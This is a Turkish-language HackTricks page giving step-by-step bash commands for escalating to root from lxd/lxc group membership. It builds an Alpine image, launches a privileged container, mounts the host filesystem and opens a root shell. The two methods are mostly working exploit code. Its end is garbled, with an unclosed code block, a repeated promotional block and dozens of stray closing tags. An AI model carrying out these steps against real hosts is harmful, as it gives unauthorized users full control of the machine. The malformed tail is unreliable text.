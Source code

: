 # lxd/lxc Grubu - Yetki Yükseltme

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

_Eğer_ **lxd** _veya_ **lxc** _grubuna ait iseniz, root olabilirsiniz._

## İnternetsiz Sömürü

### Yöntem 1

Bu dağıtım oluşturucusunu makinenize kurabilirsiniz: [https://github.com/lxc/distrobuilder ](https://github.com/lxc/distrobuilder) (github talimatlarını takip edin):
```bash
sudo su
# Install requirements
sudo apt update
sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools

# Clone repo
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container
## Using build-lxd
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
## Using build-lxc
sudo $HOME/go/bin/distrobuilder build-lxc alpine.yaml -o image.release=3.18
```
Dosyaları **lxd.tar.xz** ve **rootfs.squashfs** yükleyin, görüntüyü depoya ekleyin ve bir konteyner oluşturun:
```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
{% hint style="danger" %}
Eğer bu hatayı bulursanız _**Hata: Depo havuzu bulunamadı. Lütfen yeni bir depo havuzu oluşturun**_\
**`lxd init`** komutunu çalıştırın ve **önceki** komut grubunu **tekrar** edin
{% endhint %}

Sonunda konteyneri çalıştırabilir ve root alabilirsiniz:
```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```
### Yöntem 2

Bir Alpine imajı oluşturun ve `security.privileged=true` bayrağını kullanarak başlatın, böylece konteynerin ana dosya sistemi ile root olarak etkileşimde bulunmasını zorlayın.
```bash
# build a simple alpine image
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686

# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

<div data-gb-custom-block data-tag="hint" data-style='success'>

Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

</details>

</div>

hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</div>

</details>

</div>
```

